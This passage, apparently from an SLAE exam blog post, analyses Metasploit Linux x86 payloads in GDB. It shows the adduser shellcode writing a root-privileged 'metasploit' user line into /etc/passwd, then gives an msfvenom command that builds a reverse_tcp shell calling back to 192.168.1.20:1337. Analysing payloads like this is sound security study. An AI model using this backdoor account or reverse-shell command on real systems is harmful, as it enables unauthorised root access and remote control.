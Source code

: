 We are interested in the following instruction `0x0804807a:  call   0x80480a7`. Let's set a breakpoint and step to the next instruction to see where we land!

```
(gdb) b *0x0804807a
Breakpoint 2 at 0x804807a
(gdb) c
Continuing.

Breakpoint 2, 0x0804807a in ?? ()
(gdb) ni
0x080480a7 in ?? ()
(gdb) x/8i $pc                                                                                                                        => 0x80480a7:   pop    ecx
   0x80480a8:   mov    edx,DWORD PTR [ecx-0x4]
   0x80480ab:   push   0x4
   0x80480ad:   pop    eax      ; write() syscall
   0x80480ae:   int    0x80     ; execute syscall
   0x80480b0:   push   0x1
   0x80480b2:   pop    eax      ; exit() syscall
   0x80480b3:   int    0x80     ; execute syscall, exit program
(gdb) ni
0x080480a8 in ?? ()
(gdb) x/s  $ecx
0x804807f:      "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004Xj\001X"
(gdb) x/x $ecx-4
0x804807b:      0x28
(gdb)
```

As can be seen in the above GDB output, the gibberish data was actually a string containing the new username and password. This string will be written to `/etc/passwd`. The string was popped into `ecx` because of the call instruction that pushed the address of the following instruction onto the stack. `edx` contains the amount of bytes to write, the instruction that computes this is at address `0x80480a8`. Completing the program inserts a new user called metasploit (password is metasploit) to the system:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ grep metasploit /etc/passwd
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Should be noted that the binary needs to be run as root, since it's adding a root user.

## linux/x86/shell/reverse_tcp

For the final paylaod, we'll analyse `linux/x86/shell/reverse_tcp` which can be generated with:

```
$ msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux lhost=192.168.1.20 lport=1337 -f elf -o build/reverse_tcp
```

A reverse shell will send a local shell to a remote server, often controlled by an attacker. Let's begin analysing with `ndisasm` again.
